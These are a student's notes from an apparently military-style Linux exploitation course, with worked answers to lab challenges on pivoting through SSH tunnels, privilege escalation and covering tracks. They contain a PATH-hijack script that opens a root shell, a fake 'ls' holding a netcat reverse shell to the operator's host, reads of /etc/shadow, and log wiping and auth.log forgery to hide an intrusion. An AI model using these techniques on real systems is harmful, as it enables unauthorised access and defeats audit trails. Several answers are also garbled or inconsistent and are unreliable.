








## LINUX EXPLOITATION NOTES ##

#from Op station
student@lin-ops:~$ ssh student@10.50.23.132 -L 36363:10.10.28.42:22

#from Op station
ssh demo1@localhost -p 36363

``` 

#### When you get the error ####

student@lin-ops:~$ ssh demo1@localhost -p 36363
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@    WARNING: REMOTE HOST IDENTIFICATION HAS CHANGED!     @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
IT IS POSSIBLE THAT SOMEONE IS DOING SOMETHING NASTY!
Someone could be eavesdropping on you right now (man-in-the-middle attack)!
It is also possible that a host key has just been changed.
The fingerprint for the ECDSA key sent by the remote host is
SHA256:y1UpQ3hpzNO/zffZwT7wlBmGIhP5vKMvxMWofPseZCQ.
Please contact your system administrator.
Add correct host key in /home/student/.ssh/known_hosts to get rid of this message.
Offending ECDSA key in /home/student/.ssh/known_hosts:9
  remove with:
  ssh-keygen -f "/home/student/.ssh/known_hosts" -R "[localhost]:36363"
ECDSA host key for [localhost]:36363 has changed and you have requested strict checking.
Host key verification failed.
student@lin-ops:~$ ssh-keygen -f "/home/student/.ssh/known_hosts" -R "[localhost]:36363"


# Host [localhost]:36363 found: line 9
/home/student/.ssh/known_hosts updated.
Original contents retained as /home/student/.ssh/known_hosts.old
student@lin-ops:~$ ssh demo1@localhost -p 36363

```

########## OR ###################
#from Op station
ssh student@<JMP_IP> -D 9050
#from Op station
proxychains ssh demo1@10.10.28.42


What are sudoers????? -> ???


#### How to cat /etc/sudoers ####
sudo apt-get changelog apt
!/bin/bash
whoami -> displays root access... 
cat /etc/sudoers

%sudo	ALL=(ALL:ALL) ALL -> 

#### Gets keys ####

demo2@stu:~$ `sudo cat /var/log/syslog* /etc/shadow`

student@lin-ops:~$ `ps elf | grep ping`

student@lin-ops:~$ `ping 8.8.8.8`

demo2@stu:~$ `ls -lisa /bin/ping`
    109 64 -rwsr-xr-x 1 root root 64424 Jun 28  2019 /bin/ping
    s means it's going to execute ping as root. 
    other uses in the root group are not allowed to overwrite this file. 
    as demo 2 you can execute this file but not read it's contents. 
    When ping executes it needs root privileges to send ICMP packets. 

find / -type f -perm /4000 -ls 2>/dev/null # Find SUID only files
    4000 results to whatever??????

1st thing to look for in a file to see if it's malicious... 
    There should not be a su elevated in a temp folder!!

https://gtfobins.github.io/ -> site to find vulnerabilities...     

Run this command and compare it to a known good... like compare linops results with demo2 ....

find / -type f -perm /4000 -ls 2>/dev/null

demo2@stu:~$ netstat -tunap # if you don't see a PID then it means that its being run as sudo

demo2@stu:~$ netstat_natpu  # now shows connections 

demo2@stu:~$ strings /bin/nestat_natpu | grep netstat # check if it executes netstat

This gives -> netstat -antpu -> which means they are not using an absolute path. 

#### Insecure Permissions ####

student@lin-ops:~$ which ls -> tells you where a particular command is installed.. 

student@lin-ops:~$ echo $PATH
/home/student/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin


echo -e '#!/bin/sh\n\bin/bash -i' > netstat # Creates a netstat script. 

demo2@stu:~$ chmod +x netstat # Give executes permissions

demo2@stu:~$ ls -la netstat

demo2@stu:~$ PATH=.:$PATH # prepending an extra entity that creates a . in the path vulnerability 

demo2@stu:~$ netstat_natpu # running this then runs our netstat command as root.

demo2@stu:~$ ls -la /

total 96
drwxr-xr-x  23 root root  4096 Dec 30 03:04 .
drwxr-xr-x  23 root root  4096 Dec 30 03:04 ..
drwxr-xr-x   2 root root  4096 Dec 30 03:03 bin
drwxr-xr-x   4 root root  4096 Dec 30 03:04 boot
drwxr-xr-x  17 root root  3740 Dec 30 02:36 dev                                                     # contains device files or special device files e.g. /dev/null
drwxr-xr-x  90 root root  4096 Dec 30 03:04 etc                                                     # if you find .conf files, CHECK THEM HOW
drwxr-xr-x   5 root root  4096 Apr 11  2022 home                                                    # Stores all the user information
lrwxrwxrwx   1 root root    34 Dec 30 03:04 initrd.img -> boot/initrd.img-4.15.0-213-generic
lrwxrwxrwx   1 root root    33 Mar  4  2020 initrd.img.old -> boot/initrd.img-4.15.0-88-generic
drwxr-xr-x  20 root root  4096 Dec 30 03:01 lib                                                     # Stores libraries, some of them needed for boot. All sorts of 
drwxr-xr-x   2 root root  4096 Dec 30 02:55 lib64                                                   # Stores 64 bit programs
drwx------   2 root root 16384 Mar  4  2020 lost+found                                              # Stores recovery for file systems
drwxr-xr-x   2 root root  4096 Mar  4  2020 media                                                   # Used for repositories e.g. for installation
drwxr-xr-x   2 root root  4096 Mar  4  2020 mnt                                                     # mounting point
drwxr-xr-x   3 root root  4096 Apr 11  2022 opt                                                     #
dr-xr-xr-x 106 root root     0 Dec 30 02:36 proc                                                    # all 3rd part things e.g docker and what not
drwx------   5 root root  4096 Apr 11  2022 root                                                    #
drwxr-xr-x  26 root root   980 Jan 12 13:46 run                                                     # used to store temporary runtime files and state information       needed during the system's operation
drwxr-xr-x   2 root root 12288 Dec 30 03:01 sbin                                                    # Admin
drwxr-xr-x   2 root root  4096 Apr 11  2022 snap                                                    # Snap packages. Snap is a package management and software distribution system developed by Canonical, the company behind Ubuntu Linux. 
drwxr-xr-x   2 root root  4096 Mar  4  2020 srv                                                     #  is intended for site-specific data that is served by the system. 
                                                                                                    It is typically used to store data and files related to services, 
                                                                                                    applications, or websites hosted on the system. 

dr-xr-xr-x  13 root root     0 Dec 30 02:36 sys                                                      # A virtual filesystem that provides a way to interact with 
                                                                                                    the kernel and access various kernel parameters and configuration settings.

drwxrwxrwt  13 root root  4096 Jan 12 14:58 tmp                                                      # serves as a temporary storage location for files and data that
                                                                                                    are meant to be used temporarily and are subject to automatic 
                                                                                                    deletion. One place where all uses have write and execute permissions.
                                                                                                    Very useful for places you have restriction access.


drwxr-xr-x  10 root root  4096 Mar  4  2020 usr                                                     # Used for user installed programs. 
drwxr-xr-x  13 root root  4096 Mar  4  2020 var                                                     # contains variable data that can change during the system's operation.
lrwxrwxrwx   1 root root    31 Dec 30 03:04 vmlinuz -> boot/vmlinuz-4.15.0-213-generic
lrwxrwxrwx   1 root root    30 Mar  4  2020 vmlinuz.old -> boot/vmlinuz-4.15.0-88-generic

`find / -name "cron*" 2>/dev/null` Find all crontab jobs
root@stu:~# `cat /var/spool/cron/crontabs/root`???? What file did he edit for this guy?
Anacron is about sleep

root@stu:~# `uname -r ` Gives the kernel version that is running. 
4.15.0-88-generic


Auditing SystemV
ausearch: Pulls from audit.log
`ausearch -p 22`
`ausearch -m USER_LOGIN -sv no`
`ausearch -ua edwards -ts yesterday -te now -i`

SystemD
`Utilzes journalctl`
`journalctl _TRANSPORT=audit`
`journalctl _TRANSPORT=audit | grep 603`

Working With Logs
`file /var/log/wtmp`
`find /var/log -type f -mmin -10 2> /dev/null`
`journalctl -f -u ssh`
`journalctl -q SYSLOG_FACILITY=10 SYSLOG_FACILITY=4`

Reading Files
`cat /var/log/auth.log | egrep -v "opened|closed"`
`awk '/opened/' /var/log/auth.log`
`last OR lastb OR lastlog`
`strings OR dd`            # for data files
`more /var/log/syslog`
`head/tail`
Control your output with pipes | and more

Cleaning The Logs
Before we start cleaning, save the INODE!

Affect on the inode of using mv VS cp VS cat

Know what we are removing (Entry times? IP? Whole file? Etc.)

Cleaning The Logs (Basic)
Get rid of it

`rm -rf /var/log/...`
Clear It

`cat /dev/null > /var/log/...`
`echo > /var/log/...`

Rsyslog
Newer Rsyslog references `/etc/rsyslog.d/*` for settings/rules

Older version only uses `/etc/rsyslog.conf`

Find out grep `"IncludeConfig" /etc/rsyslog.conf`

Rsyslog Examples
kern.*                                                # All kernel messages, all severities
mail.crit
cron.!info,!debug
*.*  @192.168.10.254:514                                                     # Old format All logs
*.* action(type="omfwd" target="192.168.10.254" port="514" protocol="udp")   # New format
#mail.*

#### CHALLENGES ####

Type of Operation: Cyberspace Exploitation (C-E)

Objective: Maneuver into the Donovian internal network, gain privileged access to discovered Linux hosts.

Tools/Techniques: SSH masquerade into internal network with provided credentials. Ports in use will be dependent on target location and are subject to change. Linux techniques to gain privileged access and persist are limited to host misconfigurations, open suid/sgid, weak permissions, and path. Network scanning tools/technique usage is at the discretion of student.

Scenario Credentials: FLAG = H@RDl1nux5t@rt0F@ct1v1ty

Prior Approvals: Privilege escalation, persistence, and restarting of services through host reboot. Host survey and log sanitation utilizing native command shells, which shell is at discretion of studenteen . NOT authorized is uploading of tools or altering account information.

Scheme of Maneuver:
>Jump Box
->Pivot:192.168.28.105
--->T1: 192.168.28.27
--->T2: 192.168.28.12

Target Section:

Pivot
Hostname: Donovian-Terminal
IP: 192.168.28.105
OS: Ubuntu 18.04
Creds: comrade :: StudentReconPassword
Last Known SSH Port: 2222
PSP: rkhunter
Malware: none
Action: Perform SSH masquerade and redirect to the next target. No survey required, cohabitation with known PSP approved.

T1
Hostname: unknown
IP: 192.168.28.27
OS: Linux ver: Unknown
Creds: comrade :: StudentPrivPassword
Last Known Ports: unknown
PSP: unknown
Malware: unknown
Action: Test supplied credentials, if possible gain access to host. Conduct host survey and gain privileged access.

T2
Hostname: unknown
IP: 192.168.28.12
OS: Linux ver: Unknown
Creds: comrade :: StudentPrivPassword
Last Known Ports: unknown
PSP: unknown
Malware: unknown
Action: Test supplied credentials, if possible gain access to host. Conduct host survey and gain privileged access.

#### Post - Internal 5 ####

You have been tasked to collect intelligence relating to one of the Donovian General Officers.

The Gorgas Allied intelligence cell have determined that the 3rd and 4th octet of the the Donovian Internal Network is xxx.xxx.28.9


##### ANSWER #####

Y because of the permissions give 
$FileOwner root
$FileGroup adm

#### Cover - Rsyslog 1 5 ####

Using the contents of the "rsyslog2.conf" file as an example:

Which rule will send a message to any logged in user?

To answer challenge successfully provide the facility.priority of the rule.

Example: mail.debug


##### ANSWER #####

Step 1. Look at the rules this line 


*.emerg				:omusrmsg:*
The line you've selected is from a configuration file for `rsyslog`, a utility for logging system messages in Unix-like operating systems. This line is a rule that determines how certain types of log messages are handled.

Let's break down the components of this rule:

- `*.emerg`: This is the selector part of the rule. It matches any log message with the priority level of `emerg`. The `emerg` level is the highest priority, used for system-level emergencies that will render the system unusable.

- `:omusrmsg:*`: This is the action part of the rule. The `omusrmsg` module sends the selected messages to all logged-in users. The `*` after the colon means that the message will be sent to all users.

So, in summary, this line in the `rsyslog` configuration file means that all emergency-level log messages will be sent to all logged-in users. This can be useful for alerting users to critical system issues that may require immediate attention.

Ans -> *.emerg

#### Cover - Rsyslog 3 5 ####

Using the "rsyslog2.conf" file.

Which active rule or rules is using a abnormal logging location?

To successfully complete the challenge provide the rule facility.severity

Example: mail.debug

##### ANSWER #####

looking at this line. /tmp is only used for all users. Logs should be at /var/log directory. The .alert extension is a the severity. 

local7.alert		        /var/tmp/boot.log

Ans -> local7.alert

#### Cover - Rsyslog 4 5 ####

Using the "rsyslog2.conf" file.

What priority level will user facility log?

To successfully complete the challenge provide the rule severity level.

##### ANSWER #####

`*.emerg`: This is the selector part of the rule. It matches any log message with the priority level of `emerg`. The `emerg` level is the highest priority, used for system-level emergencies that will render the system unusable.

ans -> emerg

#### Cover - Rsyslog 5 5 ####

Using the "rsyslog2.conf" file.

Is remote logging enabled?

To successfully complete the challenge provide a Y or N (capitalized)

##### ANSWER #####

This line shows that messages are being forwarded -> *.* action(type="omfwd" target="193.0.12.1" port="10514" protocol="udp")

Ans -> Y

#### Cover - Rsyslog 6 5 ####

Using the "rsyslog2.conf" file.

What servers could this system send logs to? (also consider commented entries)

To successfully complete the challenge provide the server address or addresses in the order they appear.

Example: 10.10.10.1 10.10.10.2 (spaces in between addresses)

##### ANSWER #####

    # *.*       @@192.0.2.1:13232
    *.* action(type="omfwd" target="193.0.12.1" port="10514" protocol="udp")
    #*.* action(type="omfwd" target="192.0.42.1" port="1514" protocol="udp")

192.0.2.1 193.0.12.1 192.0.42.1

#### Cover - Rsyslog 7 5 ####

Using the "rsyslog2.conf" file.

What transport layer protocol does @@ utilize for communications when remote logging?

##### ANSWER #####

@@192.0.2.1:13232 -> @@ indicates TCP

#### Cover - Rsyslog 8 5 ####

Using the "rsyslog2.conf" file.

Which rules are inactive, what are their facilities?

 1. 0 1 2
 2. !debug, !alert, !info
 3. auth, authpriv, cron, ftp, kern, lpr
 4. local7, mail, auth ,emerg,ftp

##### ANSWER #####

Ans -> 3

#### Cover - Log Sanitization 1 5 ####

A member of your team has accessed a Linux system within the 192.168.0.0/16 network as a regular user under the name billybob of that system and has left residual information of their activity on the system. Although the user name is a regular user of the system, the IPv4 address from where you are authenticating is not a typical IPv4 address used to authenticate to the system.

In order to prevent discovery of your teams actions on the system you must manipulate the authentication log.

There are log entries from the network your team pivoted from, however during a data transfer the OP notes where lost. The team is sure that the pivots occurred from the 172 net.
In order to receive credit for this challenge you must provide the md5sum of the auth.log after it has been cleaned.

There are log entries from the network you pivoted from.
The user name is 'billybob'
You don’t know the exact IP address but you know the network is a 172.16.0.0/16
It has been decided that the first authentication event will be deleted, and the second authentication event will be modified to make it look as though the user came from the IPv4 address 192.168.1.103.

In order to receive credit for this challenge you must provide the md5sum of the auth.log after it has been cleaned.

##### ANSWER #####

Step 1. Control search for `172` and take the first ssh which is -> 16582. Make sure the occurence of this is deleted from the auth.log
Step 2. Change all 172.16.4.6 to 192.168.1.103

Step 3. mahlon.k.kirwa80@workstation15:~/Desktop/Cyber/CYBOLC/CCTC/Security$ md5sum AUTH.LOG

Ans -> 5feff04460d67d0139719503e72c8054

#### Priv 1 - Escalate 5 ####

A command this user is able to sudo can be abused to obtain access as another user. This may take some research and effort to obtain root access with it.

It is possible that your initial user does not have sudo privileges and that you will need to move laterally to another account.

The flag can be found under the root profile directory

Hint
192.168.x.27

Hint
You may want to Enumerate 1 first

##### ANSWER #####


#### Priv 1 - Enumerate 5 ####

There is a user on the system with the ability to sudo certain programs that has a '.' dot in their path and is navigating to and listing the contents of common world writable directories approximately every five minutes.

The user's script is running like this:

cd `printf "/var/tmp\n/tmp\n"|sort -R | head -n 1`;ls
The flag is located in this users home directory.

Hint
192.168.x.27

##### ANSWER #####

Step 1: Create a local Tunnel from lin-ops to Pivot (192.168.28.105)

student@lin-ops:~$ ssh student@10.50.23.132 -L 46363:192.168.28.105:2222

Step 2: Create a Dynamic to Pivot

student@lin-ops:~$ ssh comrade@localhost -p 46363 -D 9050
password: StudentReconPassword

Hint tells us that 192.168.x.27 but the T1 hostname is 192.168.28.27 so lets proxychain and scan for open ports...

Step 3: Scan the target T1 for open ports

student@lin-ops:~$ `proxychains nmap -Pn 192.168.28.27 -p 1-5000` ---> After running this, we find: 
Nmap scan report for 192.168.28.27
Host is up (0.00051s latency).
Not shown: 4999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Step 4: Create a tunnel from lin-ops to T1

student@lin-ops:~$ ssh comrade@localhost -p 46363 -L 46364:192.168.28.27:22

Step 5: ssh to T1

student@lin-ops:~$ ssh comrade@localhost -p 46364

Step 6: Go to cd `printf "/var/tmp\n/tmp\n"|sort -R | head -n 1`;ls

comrade@lin2:~$ cd `printf "/var/tmp\n/tmp\n"|sort -R | head -n 1`;ls


The command you provided is a one-liner that performs the following actions:

It uses a printf command to print two directory paths separated by a newline character. These two directories are "/var/tmp" and "/tmp."

The output of the printf command is then piped (|) to the sort command with the "-R" (or "--random-sort") option. This option instructs sort to sort the input lines randomly.

The sorted list of directories is then piped to the head command with the "-n 1" option, which tells it to output only the first line of the sorted list. In other words, it selects one directory path randomly from the two provided.

Finally, the selected directory path is used as the argument to the cd command, which changes the current working directory to the randomly selected directory. After changing to that directory, it runs the ls command to list the contents of the newly selected directory.

In summary, this command randomly selects either "/var/tmp" or "/tmp" as the current working directory and then lists the contents of that directory using the ls command. It's a way to quickly navigate and list the contents of one of these two directories at random.

systemd-private-3e3f813474ee4a6fa314d29e394d8eda-systemd-resolved.service-rHStxa
systemd-private-3e3f813474ee4a6fa314d29e394d8eda-systemd-timesyncd.service-9H5auN

the question is asking that you cd into the home directory. 

`cat /etc/passwd` to see who has access and you get the following users: 

comrade:x:1001:1001::/home/comrade:/bin/bash
billybob:x:1002:1002::/home/billybob:/bin/bash
bobby:x:1003:1003::/home/bobby:/bin/bash
jerry:x:1004:1004::/home/jerry:/bin/bash
jimmy:x:1005:1005::/home/jimmy:/bin/bash
sarah:x:1006:1006::/home/sarah:/bin/bash
wendy:x:1007:1007::/home/wendy:/bin/bash

`ls /home/wendy` to see what's listed in all of their home directory. You don't have access to billybob's that's the person you should be going after

Step 7: The command that's running is ls so we need to create a command called ls so it can be run from . or the home directory. 

Create a Script: and put this command in `nc 10.50.24.96 6969 -e /bin/bash`

touch ls

Step 8. From linops, establish a listener `nc lvn 6969`

Step 9. Wait for the communication to be established

Step 10. `cd /home/billybob`

Step 11. /bin/ls

Step 12. The flag is right here. 

/bin/ls
10-million-password-list-top-10000.txt
f!@g1.txt
logs
cat f!@g1.txt
J0dDd7M6lqn3WUpXCag


#### Priv 1 - Escalate 5 ####

A command this user is able to sudo can be abused to obtain access as another user. This may take some research and effort to obtain root access with it.

It is possible that your initial user does not have sudo privileges and that you will need to move laterally to another account.

The flag can be found under the root profile directory

Hint
192.168.x.27

Hint
You may want to Enumerate 1 first

##### ANSWER #####


1. copy the information from Billybob's homefolder 
2. move that to /var/tmp so you can scp these documents to the linops
3. use a tool to crack hashes

scp 10-million-password-list-top-10000.txt student@10.50.24.96:/home/student/linx_exploitation


!/bin/bash

#script that sends information to a remote system.

cat /etc/passwd > /tmp/test1.txt

Here, this script is readin /etc/passwd and sending it to the /tmp directory to a file test2.txt




1. Using the contents of the "rsyslog2.conf" file as an example:

True/False: If this file were named /etc/rsyslog.conf, would the configuration be a concern for us if we gained accessed through secure shell?

To successfully answer the challenge, provide a T or F (capitalized)

T because while custom configuration data is in /etc/rsyslog.conf

2. Using the contents of the "rsyslog2.conf" file as an example:

Which rule will send a message to any logged in user?

To answer challenge successfully provide the facility.priority of the rule.

Example: mail.debug

*.emerg

# Everybody gets emergency messages

3. Using the "rsyslog2.conf" file.

Which active rule or rules is using a abnormal logging location?

To successfully complete the challenge provide the rule facility.priority.Example: mail.debug

local7.alert

#/var/log/wtmp(x) = Provides a permanent historical record of each time a user logged in and out, and system boots, reboots, and shutdowns in binary format.

4. Using the "rsyslog2.conf" file.

What priority level will user facility log?

To successfully complete the challenge provide the rule severity level.



0 = emergency

5. Using the "rsyslog2.conf" file.

Is remote logging enabled?To successfully complete the challenge provide a Y or N (capitalized)

Y # *.* @@192.0.2.1:13232 = this identifies all facilities and severity messages to a remote logging server

6. Using the "rsyslog2.conf" file.

What servers could this system send logs to? (also consider commented entries)

192.0.2.1 193.0.12.1 193.0.42.1



7. Using the "rsyslog2.conf" file.

What transport layer protocol does @@ utilize for communications when remote logging?

port 13232 == TCP

8. Using the "rsyslog2.conf" file.

Which rules are inactive, what are their facilities?

Rules has # making them inactive



9. There is a user on the system with the ability to sudo certain programs that has a '.' dot in their path and is navigating to and listing the contents of common world writable directories approximately every five minutes.

The user's script is running like this:

cd `printf "/var/tmp\n/tmp\n"|sort -R | head -n 1`;ls

The flag is located in this users home directory.

Step 1: Create a local Tunnel from lin-ops to Pivot (192.168.28.105)

student@lin-ops:~$ ssh student@10.50.33.231 -L 50511:192.168.28.105:2222 -NT

Step 2: Create a Dynamic to Pivot

student@lin-ops:~$ ssh comrade@localhost -p 50511 -D 9050 –NT

Step 3: Scan the target T1 for opem ports

student@lin-ops:~$ proxychains nmap -Pn 192.168.28.27 -p 1-5000



Step 4: Create a tunnel from lin-ops to T1

student@lin-ops:~$ ssh comrade@localhost -p 50511 -L 50522:192.168.28.27:22 -NT

Step 5: ssh to T1

student@lin-ops:~$ ssh comrade@localhost -p 50522

Step 6: Go to cd `printf "/var/tmp\n/tmp\n"|sort -R | head -n 1`;ls



Step 7: Here we are not able to read the files above. But the current user comrade@lin2 has “.” on directory which makes any script we put on that directory executable.

Create a Script:

`nano ls`

`!/bin/bash`

#script that sends information to a remote system.

`cat /etc/passwd > /tmp/test1.txt`

Here, this script is readin /etc/passwd and sending it to the /tmp directory to a file test2.txt

Do the same on /var/tmp direcotory as well

`nano ls`

Step 8: go back to /tmp directory and read the test1.txt file



Step 9: we need to identify who is running this scrip so change the nano ls on both directories

`nano ls`

`!/bin/bash`

#script that sends information to a remote system.

`whoami > /tmp/test1.txt`

And read the test1.txt file


Step 10: we know billybob is running the file

Step 11: Now, we need to figure out password for billybob -----

Nano

#!/bin/bash

# script that sends information to a remote system

/bin/ls /home/billybob > /tmp/test1.txt

Step 12: cat test1.txt

Note: watch “test1.txt” #this will run the file every 2 second



10. A command this user is able to sudo can be abused to obtain access as another user. This may take some research and effort to obtain root access with it.

It is possible that your initial user does not have sudo privileges and that you will need to move laterally to another account.

The flag can be found under the root profile directory


REVIEWS -> 
Sometimes the instructor  was way too fast to follow 